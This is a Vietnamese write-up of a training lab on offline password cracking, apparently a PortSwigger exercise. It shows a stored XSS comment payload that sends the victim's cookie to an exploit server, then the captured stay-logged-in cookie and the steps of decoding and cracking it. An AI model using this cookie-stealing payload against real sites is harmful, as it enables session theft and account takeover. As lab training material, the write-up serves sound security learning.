






# Lab: Offline password cracking

## Mô tả lab

Bài lab yêu cầu đánh cắp cookie của victim thông qua XSS, sau đó crack hash offline để tìm password.

## Các bước thực hiện

Các bước phân tích cookie stay-logged-in giống lab:

- **Lab Brute-forcing a stay-logged-in cookie**

## Tìm lỗ hổng XSS

Tiếp theo, cần tìm nơi có thể chèn payload để victim `carlos` truy cập và làm lộ cookie.

Ứng dụng cho phép gửi comment dưới bài viết.



Sau khi gửi comment và xem lại bài viết, alert được kích hoạt.



## Khai thác

Vì victim sẽ xem comment đã đăng, ta có thể chèn JavaScript để đọc cookie của victim sau đó gửi cookie về server do attacker kiểm soát.

Dùng exploit server được cung cấp. Server này có access log, giúp ta xem được request do victim gửi tới.

## Tạo payload

Payload dùng trong comment:

```html
<script>document.location='https://exploit-0a1c003c04507c758001f913017c0044.exploit-server.net/'+document.cookie</script>
```

Mở exploit server và xem access log.



Trong log, ta thấy request chứa cookie của victim.

```text
stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

Decode Base64.



Crack MD5 password, thu được password của user `carlos`.



Login và xóa tài khoản.



Lab solved.